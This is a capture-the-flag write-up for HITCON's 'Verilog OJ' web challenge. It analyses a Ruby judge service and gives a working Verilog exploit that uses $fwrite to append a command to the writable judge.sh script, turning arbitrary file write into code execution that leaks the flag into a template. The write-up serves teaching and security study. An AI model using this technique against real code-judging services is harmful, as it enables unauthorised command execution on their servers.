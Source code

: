 # Verilog OJ
- Tags: `web`, `misc`
- Score: 227/500
- Solves: 44

## Description
> Yes, we need Online Judge for Verilog for our Logic Design course.
> 
> Instancer: http://verilog-oj.chal.hitconctf.com/

## Overview
Verilog arbitrary file write -> overwrite shell script -> RCE

## Recon
The server is written in ruby with puma + roda + slim template engine.  
There is also sidekiq + redis setup for judging task queueing.  
In `app/lib/judge_job.rb`, it prepares the judge code, and calls `scripts/judge.sh` for judging.

```ruby
    def perform(submission_id)
      submission = Submission.first(id: submission_id)
      return if submission.nil? || submission.result != 'Q'

      dir = prepare(submission)
      result, output = judge dir
      submission.update(result: result, output: output) unless result.nil?
      FileUtils.remove_dir(dir, force: true)
    end

    def prepare(submission)
      dir = Dir.mktmpdir("submission_#{submission.id}_")
      File.write("#{dir}/testbench.v", submission.problem.testbench)
      File.write("#{dir}/module.v", submission.code)
      dir
    end

    def judge(dir) # rubocop:disable Metrics/MethodLength
      stdout, stderr, status = Timeout.timeout(15) do
        # To simply error handling, let iverilog and vvp fail in a single script
        script_path = File.realpath("#{File.dirname(__FILE__)}/../../scripts/judge.sh")
        # iverilog is safe to execute
        Open3.capture3("#{script_path} #{dir}")
      end
      # Output parsing...
    end
```

In addition, while judging, the judge script is not isolated at all (with some "confident" comments :P), and the script itself is writable by user `app`.  
One might utilize submitted verilog code to modifiy the judge script for command execution.  

From Dockerfile, one can notice that `/flag` is readonly with root, and one needs to execute `/readflag give me the flag` to get the flag.  


## Exploit
Simply use `$fwrite` to overwrite `judge.sh` with command, submit another code again to execute your command.  
In addition, since there is no external network access for the challenge instance, one can write the flag to any templates/assets to read the flag.  

Exploit:
```verilog
`timescale 1ns/1ps

module Crossbar_2x2_4bit(in1, in2, control, out1, out2);

input [3:0] in1, in2;
input control;
output [3:0] out1, out2;

integer f;
initial begin
    f = $fopen("/app/scripts/judge.sh", "a");
    $fwrite(f, "echo \"p $(/readflag give me the flag)\" >> /app/app/presentation/views/submission.slim");
    $fclose(f);
end

endmodule
```

## Flag
<details>
<summary>Spolier</summary>

`hitcon{1_u$ed_t0_beli3v3_th4t_Judging_VeriloG_is_VERY_S@f3_Fr0m_RCE_QAQ}`
</details>
